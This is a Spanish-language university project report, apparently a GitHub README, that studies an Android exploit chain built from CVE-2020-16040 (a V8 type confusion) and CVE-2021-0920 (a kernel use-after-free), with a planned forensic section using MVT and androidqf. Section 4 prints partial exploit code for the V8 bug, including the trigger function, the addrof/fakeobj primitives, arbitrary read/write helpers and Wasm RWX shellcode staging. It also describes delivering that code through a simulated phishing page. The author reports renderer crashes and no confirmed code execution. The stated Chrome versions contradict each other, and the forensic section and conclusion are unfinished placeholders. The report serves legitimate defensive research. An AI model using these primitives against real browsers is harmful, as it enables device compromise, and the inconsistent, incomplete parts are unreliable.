


# Pruebas de concepto (PoC) y Análisis de Cadenas de Explotación en Android: CVE-2020-16040 (V8 Type Confusion) y CVE-2021-0920 (Escalada de Privilegios en Kernel)

**Instituto Tecnológico y de Estudios Superiores de Occidente (ITESO)**  
Proyecto de Aplicación Profesional – PAP ITESO 2026  
Colaboración: SocialTIC

**Autor:** Jorge Francisco Arriaga Escamilla  
**Guadalajara, Jalisco – 2026**


## Índice

## Índice

<!-- TOC -->
<!-- /TOC -->
- [Pruebas de concepto (PoC) y Análisis de Cadenas de Explotación en Android: CVE-2020-16040 (V8 Type Confusion) y CVE-2021-0920 (Escalada de Privilegios en Kernel)](#pruebas-de-concepto-poc-y-análisis-de-cadenas-de-explotación-en-android-cve-2020-16040-v8-type-confusion-y-cve-2021-0920-escalada-de-privilegios-en-kernel)
  - [Índice](#índice)
  - [Índice](#índice-1)
  - [1. Introducción](#1-introducción)
  - [2. Explicación](#2-explicación)
    - [2.1 ¿Qué es una cadena de explotación?](#21-qué-es-una-cadena-de-explotación)
    - [2.2 Uso en escenarios reales.](#22-uso-en-escenarios-reales)
  - [3. Reference: Referencia Técnica](#3-reference-referencia-técnica)
    - [3.1 CVE-2020-16040: Type Confusion en el Motor V8 de Chromium](#31-cve-2020-16040-type-confusion-en-el-motor-v8-de-chromium)
      - [3.1.1 Descripción del componente afectado](#311-descripción-del-componente-afectado)
      - [3.1.2 Type Confusion](#312-type-confusion)
      - [3.1.3 De type confusion a AAR/AAW y RCE](#313-de-type-confusion-a-aaraaw-y-rce)
    - [3.2 CVE-2021-0920: Escalada de Privilegios en el Kernel Android](#32-cve-2021-0920-escalada-de-privilegios-en-el-kernel-android)
      - [3.2.1 Descripción del componente afectado](#321-descripción-del-componente-afectado)
      - [3.2.2 Use-after-free y race-condition](#322-use-after-free-y-race-condition)
      - [3.2.3 Primitiva de escalada de privilegios](#323-primitiva-de-escalada-de-privilegios)
  - [4. Tutorial: Implementación del Proyecto](#4-tutorial-implementación-del-proyecto)
    - [4.1 Configuración del entorno de trabajo](#41-configuración-del-entorno-de-trabajo)
      - [4.1.1 Hardware y sistema operativo objetivo](#411-hardware-y-sistema-operativo-objetivo)
      - [4.1.2 Entorno de desarrollo y análisis](#412-entorno-de-desarrollo-y-análisis)
    - [4.2 Análisis del exploit para CVE-2020-16040](#42-análisis-del-exploit-para-cve-2020-16040)
    - [Explicación del Código](#explicación-del-código)
      - [4.2.1 Construcción de la primitiva addrof/fakeobj](#421-construcción-de-la-primitiva-addroffakeobj)
      - [4.2.2 Implementación de AAR/AAW mediante ArrayBuffer sintético](#422-implementación-de-aaraaw-mediante-arraybuffer-sintético)
      - [4.2.3 Integración de WebAssembly para ejecución de shellcode](#423-integración-de-webassembly-para-ejecución-de-shellcode)
    - [4.3 Pruebas de ejecución y resultados observados](#43-pruebas-de-ejecución-y-resultados-observados)
      - [4.3.1 Ejecución del exploit en el renderer](#431-ejecución-del-exploit-en-el-renderer)
      - [4.3.2 Ajuste de offsets y verificación](#432-ajuste-de-offsets-y-verificación)
      - [4.3.3 Resultado: ejecución en el renderer y limitaciones del sandbox](#433-resultado-ejecución-en-el-renderer-y-limitaciones-del-sandbox)
    - [4.4 Análisis de CVE-2021-0920 en contexto aislado](#44-análisis-de-cve-2021-0920-en-contexto-aislado)
  - [5. How-To: Análisis Forense y Hallazgos](#5-how-to-análisis-forense-y-hallazgos)
      - [5.1 Requisitos previos](#51-requisitos-previos)
      - [5.2 Obtención de androidqf](#52-obtención-de-androidqf)
    - [5.3 Análisis con MVT](#53-análisis-con-mvt)
    - [5.4 Análisis de tombstones y logcat](#54-análisis-de-tombstones-y-logcat)
    - [5.5 Evidencia obtenida y hallazgos del proyecto](#55-evidencia-obtenida-y-hallazgos-del-proyecto)
      - [5.4.1 Estructura de un tombstone](#541-estructura-de-un-tombstone)
      - [5.4.2 Patrones en logcat asociados a explotación del navegador](#542-patrones-en-logcat-asociados-a-explotación-del-navegador)
  - [6. Conclusión](#6-conclusión)
  - [Referencias](#referencias)

---

## 1. Introducción

El presente documento describe el proceso práctico desarrollado en el marco del Proyecto de Aplicación Profesional (PAP) correspondiente al ciclo ITESO Primavera 2026, en colaboración con SocialTIC. La investigación se enfocó en la construcción y comprensión de una cadena de explotación dirigida a dispositivos Android, tomando como piezas fundamentales dos vulnerabilidades públicamente documentadas: CVE-2020-16040, una vulnerabilidad de confusión de tipos en el motor JavaScript V8 del navegador Chromium, y CVE-2021-0920, una vulnerabilidad de *use-after-free* en el subsistema Unix garbage collector del kernel Linux —tal como se implementa en Android—, que permite la escalada de privilegios desde el contexto del proceso comprometido hasta el nivel del sistema. El trabajo combina análisis estático y dinámico, implementación de pruebas de concepto (PoC), experimentación en dispositivo físico con Android 9 (ARM64) y análisis forense posterior mediante las herramientas Mobile Verification Toolkit (MVT) y androidqf. 

---


## 2. Explicación

### 2.1 ¿Qué es una cadena de explotación?

Una cadena de explotación (*exploit chain*) es una secuencia ordenada de vulnerabilidades que, al encadenarse, permite a un atacante alcanzar un objetivo de control que ninguna de las vulnerabilidades individuales podría lograr por sí sola la cadena de explotación, por ejemplo, comienza con la primera vulnerabilidad de la cadena, que típicamente provee acceso inicial dentro de un proceso con privilegios reducidos. Una vez dentro de este proceso, la segunda vulnerabilidad permite escapar del *sandbox* (un método para aislar procesos como mecanismo de defensa) para ganar acceso al proceso privilegiado, como el navegador o directamente al espacio de usuario del sistema operativo. Si el objetivo es el control total del dispositivo, una tercera vulnerabilidad eleva los permisos del atacante de usuario sin privilegios a superusuario (*root*), otorgándole control completo y sin reestricción sobre el sistema.


### 2.2 Uso en escenarios reales.

Las cadenas de explotación son cruciales para la seguridad digital, especialmente para periodistas y activistas en América Latina. Conocimiento sobre estas cadenas permite diseñar programas de detección y respuesta a incidentes, y generar inteligencia sobre tácticas y procedimientos para comunidades en riesgo. Un patrón común de ataque involucra un enlace disfrazado que ejecuta código malicioso, obteniendo acceso al sistema y, en casos sofisticados, instalando un agente de vigilancia persistente.

---


## 3. Reference: Referencia Técnica

### 3.1 CVE-2020-16040: Type Confusion en el Motor V8 de Chromium

#### 3.1.1 Descripción del componente afectado

V8 es el motor de JavaScript de Chrome, encargado de ejecutar el código de las páginas web. Para mejorar el rendimiento, utiliza un compilador llamado TurboFan, que transforma JavaScript en código máquina optimizado.

TurboFan asume que los tipos de los objetos permanecen constantes durante la ejecución, lo que le permite eliminar validaciones y acelerar el código. Si esta suposición deja de cumplirse, el motor debería revertir la optimización (desoptimizar).

La vulnerabilidad CVE-2020-16040 ocurre cuando este mecanismo falla: TurboFan continúa ejecutando código optimizado aun cuando el tipo real del objeto ha cambiado, generando una inconsistencia en la interpretación de la memoria.


#### 3.1.2 Type Confusion

Una confusión de tipos (type confusion) ocurre cuando un programa interpreta una región de memoria como si fuera de un tipo distinto al real.

En el contexto de V8, esto significa que un objeto puede ser tratado como si tuviera una estructura interna diferente (por ejemplo, interpretar datos como números cuando en realidad son punteros).

Esta situación rompe las garantías de seguridad del motor, ya que permite leer o escribir valores en memoria fuera de los límites esperados. En CVE-2020-16040, la confusión se produce debido a que TurboFan mantiene una suposición incorrecta sobre el tipo de un objeto después de una optimización inválida.

#### 3.1.3 De type confusion a AAR/AAW y RCE

A partir de la confusión de tipos, es posible manipular la memoria del proceso y construir primitivas de explotación.

Primero, el atacante obtiene la capacidad de interpretar datos como direcciones de memoria, lo que permite implementar funciones como addrof (obtener la dirección de un objeto) y fakeobj (crear un objeto en una dirección controlada).

Estas primitivas habilitan operaciones de lectura y escritura arbitraria en memoria (AAR/AAW), lo que significa que el atacante puede acceder y modificar cualquier región del proceso.

Finalmente, este control permite redirigir la ejecución del programa hacia código controlado por el atacante, logrando ejecución de código arbitrario (RCE) dentro del proceso del navegador.

---

### 3.2 CVE-2021-0920: Escalada de Privilegios en el Kernel Android

#### 3.2.1 Descripción del componente afectado
La vulnerabilidad CVE-2021-0920 afecta al subsistema de sockets Unix del kernel Linux, específicamente a la función unix_gc(), encargada de liberar memoria asociada a descriptores de archivo cuando ya no están en uso.

Este mecanismo forma parte de la gestión interna del kernel para mantener la integridad de los recursos del sistema. Sin embargo, errores en este proceso pueden provocar inconsistencias en la memoria, lo que abre la puerta a vulnerabilidades críticas.

#### 3.2.2 Use-after-free y race-condition
Un use-after-free (UAF) ocurre cuando un programa continúa utilizando una región de memoria que ya ha sido liberada. Si esa memoria es reutilizada, su contenido puede ser controlado por un atacante.

En CVE-2021-0920, este comportamiento se combina con una condición de carrera (race condition): múltiples hilos interactúan con estructuras de sockets al mismo tiempo, generando un escenario donde el kernel libera un objeto mientras otro hilo aún lo está utilizando.

Esta desincronización permite que el atacante controle el contenido de la memoria liberada, reemplazándolo por datos manipulados.

#### 3.2.3 Primitiva de escalada de privilegios
A partir del UAF, el atacante obtiene la capacidad de corromper estructuras internas del kernel, como descriptores de archivo o referencias a objetos.

Manipulando estas estructuras, es posible modificar credenciales del proceso o redirigir punteros hacia datos controlados, lo que permite elevar privilegios desde un usuario sin privilegios hasta nivel root.

Dentro de una cadena de explotación, esta vulnerabilidad representa el paso final: una vez que el atacante ya ejecuta código en espacio de usuario (por ejemplo, desde el navegador), este fallo en el kernel permite romper el aislamiento del sistema y obtener control total del dispositivo.


---


## 4. Tutorial: Implementación del Proyecto

Esta sección describe de forma narrativa el trabajo técnico real realizado durante el proyecto. Su propósito es documentar el proceso, las decisiones tomadas, los obstáculos encontrados y los resultados observados.

### 4.1 Configuración del entorno de trabajo

#### 4.1.1 Hardware y sistema operativo objetivo

El dispositivo objetivo utilizado en el proyecto fue un teléfono Android con procesador ARM64 ejecutando Android 9 (Pie, API level 28). La elección de Android 9 responde a dos criterios: es la versión en la que el navegador Chrome 86.0.4240.75 —la versión afectada por CVE-2020-16040— fue ampliamente utilizado, y es una versión sin parche para CVE-2021-0920, lo que la convierte en el contexto más realista para estudiar la cadena completa. El dispositivo contaba con la depuración USB (ADB) habilitada y *root* desactivado por defecto, replicando las condiciones de un dispositivo de usuario regular sin modificaciones.

| Parámetro | Valor |
|---|---|
| Sistema Operativo | Android 9.0 (Pie) –  |
| Arquitectura | ARM64 (aarch64) |
| Navegador objetivo | Chrome 72.0.3626.121 |
| Nivel de parche de seguridad | Anterior a noviembre 2020 |

#### 4.1.2 Entorno de desarrollo y análisis

El trabajo de desarrollo, análisis y depuración se realizó desde un *host* con MacOS. Las herramientas principales instaladas en el *host* fueron: Android Debug Bridge (ADB) para comunicación con el dispositivo, un servidor HTTP local (Python 3 `http.server`) para la entrega del *exploit*, el depurador Chrome DevTools Protocol (CDP) para inspección del estado del *renderer*, y las herramientas de análisis forense MVT y androidqf para la fase de análisis *post-explotación*.

### 4.2 Análisis del exploit para CVE-2020-16040

### Explicación del Código

#### 4.2.1 Construcción de la primitiva addrof/fakeobj
El exploit comienza provocando una confusión de tipos en V8 mediante la función foo(). Esta función fuerza a TurboFan a generar una optimización incorrecta sobre arreglos, permitiendo acceder a memoria fuera de los límites esperados.

```javascript
function foo(a) {
  var y = 0x7fffffff;
  if (a == NaN) y = NaN;
  if (a) y = -1;

  let z = y + 1;
  z >>= 31;
  z = 0x80000000 - Math.sign(z|1);

  if(a) z = 0;

  var arr = new Array(0-Math.sign(z));
  arr.shift();

  var cor = [1.1, 1.2, 1.3];

  return [arr, cor];
}
```

Para la construcción de las dos primitivas fundamentales: `addrof` —que permite obtener la dirección numérica de cualquier objeto JavaScript en el *heap* de V8— y `fakeobj` —que permite crear una referencia JavaScript a una dirección de memoria arbitraria, haciendo que V8 la trate como un objeto legítimo—. Estas primitivas son el punto de articulación entre la corrupción inicial de tipos y el control real de la memoria del proceso.

La técnica utilizada fue la manipulación del campo «map» de un objeto `JSArray` mediante la confusión de tipos descrita en la sección de referencia. Al crear un *array* de tipo `Float64Array` y un objeto ordinario adyacente en el *heap*, y luego provocar la confusión de tipos bajo las condiciones requeridas para CVE-2020-16040, fue posible leer el campo «map» del objeto adyacente como un valor *float* de 64 bits. La representación numérica de ese *float* contiene los bits que, reinterpretados como un puntero, corresponden a la dirección del mapa —y por extensión, del objeto— en el *heap* de V8. Esta es la primitiva `addrof`.

```javascript
// Fragmento simplificado – primitiva addrof
function addrof(target_obj) {
  // Colocar objeto objetivo en posición controlada del heap
  holder[0] = target_obj;
  // Activar type confusion: leer campo de puntero como float64
  return f2i(confused_array[OBJ_MAP_OFFSET]);
}
```

La primitiva `fakeobj` es la inversa: permite crear un objeto JavaScript cuya dirección en memoria el atacante controla, escribiendo un valor *float* en el campo del *heap* de V8 que V8 interpretará como un puntero a objeto.

```javascript
// Fragmento simplificado – primitiva fakeobj
function fakeobj(addr) {
  // Escribir dirección como float64 en el offset de puntero de objeto
  confused_array[OBJ_MAP_OFFSET] = i2f(addr);
  // Leer de vuelta el campo como objeto – V8 lo desreferencia como JSObject
  return holder[0];
}
```


#### 4.2.2 Implementación de AAR/AAW mediante ArrayBuffer sintético
El exploit utiliza un ArrayBuffer para construir capacidades de lectura y escritura arbitraria en memoria.
```javascript
let buf2 = new ArrayBuffer(0x150);
```
En V8, los datos reales del ArrayBuffer son almacenados en una región apuntada por el campo backing_store. El exploit sobrescribe este puntero para redirigir las operaciones del buffer hacia direcciones arbitrarias.

La lectura arbitraria se implementa mediante:
```javascript
function arbread(addr) {
    if (addr % 2n == 0) addr += 1n;

    arr2[1] = itof((2n << 32n) + addr - 8n);

    return (fake[0]);
}
```
La escritura arbitraria se implementa mediante:
```javascript
function arbwrite(addr, val) {
    if (addr % 2n == 0) addr += 1n;

    arr2[1] = itof((2n << 32n) + addr - 8n);

    fake[0] = itof(BigInt(val));
}
```
Estas funciones permiten acceder directamente a memoria del proceso del navegador, rompiendo el aislamiento normal del renderer.

#### 4.2.3 Integración de WebAssembly para ejecución de shellcode
Una vez establecidas las primitivas AAR/AAW, el objetivo fue obtener ejecución de código arbitrario en el *renderer*. La técnica se basa en el hecho de que el *runtime* de WebAssembly en V8 requiere una región de memoria con permisos simultáneos de lectura, escritura y ejecución (RWX) para almacenar el código nativo compilado de los módulos Wasm. El proceso consiste en: compilar un módulo WebAssembly mínimo y válido para que V8 asigne la región RWX; usar AAR para leer el campo `jump_table_start` del objeto `wasm::NativeModule`, que contiene la dirección de esa región; usar AAW para escribir el *shellcode* en la región RWX; y finalmente llamar a la función del módulo Wasm para redirigir la ejecución al *shellcode*.

```javascript
// Inicialización del módulo WebAssembly
const wasm_code = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d,  // magic: \0asm
  0x01, 0x00, 0x00, 0x00,  // version: 1
  0x01, 0x04, 0x01, 0x60,  // type section: func () -> ()
  0x00, 0x00, 0x03, 0x02,  // function section
  0x01, 0x00, 0x07, 0x08,  // export section
  0x01, 0x04, 0x6d, 0x61,  // export name: 'main'
  0x69, 0x6e, 0x00, 0x00,
  0x0a, 0x04, 0x01, 0x02,  // code section
  0x00, 0x0b               // body: empty function
]);
const wasm_mod  = new WebAssembly.Module(wasm_code);
const wasm_inst = new WebAssembly.Instance(wasm_mod);
const wasm_func = wasm_inst.exports.main;
```
Una vez localizada la región RWX, el shellcode ARM64 es copiado mediante:

```javascript
copy_shellcode(target_addr, shellcode);
```
Finalmente, la ejecución es activada invocando la función Wasm:
```javascript
f();
```
El exploit verifica el éxito comprobando la modificación de un valor específico en memoria:
```javascript
if(flag_view[0] === 0xDEADBEEFCAFEBABEn) {
    log("[+] ¡RCE CONFIRMADO!", "success");
}
```
Esto confirmaría la ejecución de código arbitrario dentro del proceso del navegador.


### 4.3 Pruebas de ejecución y resultados observados

#### 4.3.1 Ejecución del exploit en el renderer

El *exploit* fue entregado al dispositivo objetivo a través de un servidor HTTP local, la página cargada simula hacia una plataforma en la nube para Gestión Empresarial, esto se realizó con el objetivo de replicar como sería un recurso de phishing para lograr acceso inicial para el dispositivo de una víctima.

<p align="center">
  
</p>

<p align="center">
  Figura 1. Página de phishing.
</p>


Dentro del dispositivo Android preparado, simulando ser la víctima, se accedió desde el navegador Chrome con versión 72.0.3626.121 a la página HTML de entrega contenía el *exploit* JavaScript completo e inicializaba automáticamente la secuencia de explotación al ser cargada. 
```html
<script src="test.js"></script>
```

La ejecución fue monitoreada desde un *host* mediante `adb logcat | grep "chrome"` para capturar mensajes del navegador, 

Después de algunas iteraciones, la ejecución produjo *crashes* del proceso del *renderer*, manifestados como señales `SIGSEGV` (violación de segmento). 
Los registros mostraban errores SEGV_MAPERR con fault address 0x0, indicando intentos de acceso a punteros nulos (null pointer dereference).

Estos fallos evidenciaban que el exploit alcanzaba las fases de resolución de estructuras internas de V8 y WebAssembly, pero utilizando offsets incompatibles con la versión específica del binario de Chrome presente en el dispositivo. Como resultado, algunos punteros críticos —como referencias a NativeModule o regiones ejecutables RWX— eran resueltos incorrectamente, produciendo accesos inválidos a memoria.

<p align="center">
  
</p>

<p align="center">
  Figura 2. Señales de SIGSEGV y SEGV_MAPERR.
</p>


#### 4.3.2 Ajuste de offsets y verificación

Después de las primeras ejecuciones del exploit, el comportamiento observado no correspondía a una ejecución estable de código arbitrario, sino a crashes del proceso renderer de Chrome. Esto hizo evidente que los offsets utilizados por el exploit no coincidían correctamente con el layout interno de la versión específica de Chrome instalada en el dispositivo objetivo.

El exploit dependía de navegar estructuras internas de V8 y WebAssembly utilizando desplazamientos de memoria específicos. Entre estas estructuras se encontraban referencias asociadas al objeto NativeModule, tablas de salto (jump tables), punteros internos de funciones Wasm y direcciones de memoria potencialmente ejecutables (RWX). Si alguno de estos offsets era incorrecto, el exploit terminaba resolviendo punteros inválidos o nulos.

Los errores observados en logcat mostraban consistentemente fallos SIGSEGV con SEGV_MAPERR y accesos a la dirección 0x0, indicando una desreferenciación de punteros nulos (null pointer dereference).

```Text
Fatal signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 0x0
```
Este comportamiento sugería que el exploit lograba alcanzar fases avanzadas de manipulación de memoria dentro del renderer, pero fallaba durante la resolución de estructuras internas necesarias para continuar la cadena de explotación. En lugar de obtener una dirección válida hacia regiones ejecutables o estructuras Wasm, algunos punteros terminaban apuntando a memoria no mapeada.

A partir de estos resultados, se realizó un proceso iterativo de ajuste de offsets. Para cada ejecución se modificaban valores relacionados con estructuras internas de V8 y posteriormente se validaba el comportamiento del proceso mediante adb logcat, observando si el crash ocurría en fases diferentes del exploit o si cambiaba el patrón del fallo.

Durante este análisis también se confirmó que los procesos afectados correspondían a procesos aislados (sandboxed processes) del navegador Chrome, específicamente instancias de SandboxedProcessService.

```Text
Scheduling restart of crashed service
com.android.chrome/org.chromium.content.app.SandboxedProcessService
```
Esto indicaba que el exploit efectivamente interactuaba con el proceso renderer del navegador y alcanzaba un nivel significativo de manipulación interna de memoria, aunque sin lograr una ejecución estable de código arbitrario.


#### 4.3.3 Resultado: ejecución en el renderer y limitaciones del sandbox
El resultado final de las pruebas fue la generación consistente de crashes dentro del proceso renderer de Chrome al ejecutar el exploit en el dispositivo Android objetivo. Los registros obtenidos mediante logcat mostraban reinicios automáticos de procesos SandboxedProcessService acompañados de errores SIGSEGV, lo que confirmaba accesos inválidos a memoria dentro del contexto del navegador.

Aunque estos resultados no constituyen evidencia suficiente para afirmar una ejecución exitosa de shellcode o una ejecución completa de código arbitrario (RCE), sí indican que el exploit logró alterar el comportamiento normal del renderer y alcanzar etapas avanzadas de corrupción de memoria dentro de V8.

La principal limitación encontrada fue la dependencia del exploit respecto a offsets específicos de la implementación interna de V8 y WebAssembly para esa versión particular de Chrome. Diferencias pequeñas entre compilaciones, versiones del navegador o estructuras internas del motor pueden provocar que punteros críticos sean resueltos incorrectamente, generando referencias nulas o accesos inválidos en lugar de control estable del flujo de ejecución.

### 4.4 Análisis de CVE-2021-0920 en contexto aislado
La vulnerabilidad CVE-2021-0920, segundo eslabón de la cadena de explotación del proyecto, buscaba elevar privilegios desde espacio de usuario al kernel de Android.  Según el análisis técnico de Google Project Zero, la vulnerabilidad radicaba en la función unix_gc() del subsistema de sockets Unix del kernel Linux.  Este componente libera referencias a descriptores de archivo y limpia objetos asociados a sockets inactivos.  Bajo ciertas condiciones de concurrencia, el kernel podía liberar una estructura mientras otro hilo mantenía una referencia activa, generando una condición de use-after-free (UAF).

Encadenada con la vulnerabilidad de Chrome, el objetivo era usar la ejecución obtenida en el renderer para interactuar con el kernel mediante llamadas al sistema relacionadas con sockets Unix.  Mediante múltiples hilos y operaciones concurrentes, el atacante intentaría provocar la condición de carrera necesaria para reutilizar memoria liberada y reemplazarla por datos controlados.

Sin embargo, durante el desarrollo del proyecto se identificó una limitación clave: el proceso renderer de Chrome opera en un entorno altamente restringido con sandboxing y filtros seccomp-bpf. Estas restricciones limitan el acceso a varias syscalls necesarias para interactuar directamente con el subsistema vulnerable del kernel.

---

## 5. How-To: Análisis Forense y Hallazgos

Esta sección tiene propósito procedimental: describe cómo reproducir los pasos de análisis forense realizados en el proyecto, qué artefactos buscar en un dispositivo potencialmente comprometido, y cómo interpretar la evidencia recopilada. Está orientada a un lector técnico que desee aplicar estos procedimientos a sus propias investigaciones.


#### 5.1 Requisitos previos
android qf
android mvt
modificación de mvt

#### 5.2 Obtención de androidqf
comando de extraccion

### 5.3 Análisis con MVT
se le aplica mvt a la extraccion

### 5.4 Análisis de tombstones y logcat


### 5.5 Evidencia obtenida y hallazgos del proyecto


#### 5.4.1 Estructura de un tombstone
????

#### 5.4.2 Patrones en logcat asociados a explotación del navegador
????

---

## 6. Conclusión

---

## Referencias

Google Project Zero. (2020). *CVE-2020-16040 analysis: V8 type confusion in TurboFan*. Google Project Zero Blog. https://googleprojectzero.blogspot.com/

Google Project Zero. (2021). *CVE-2021-0920: Linux kernel unix_gc use-after-free*. Project Zero Issue Tracker. https://bugs.chromium.org/p/project-zero/

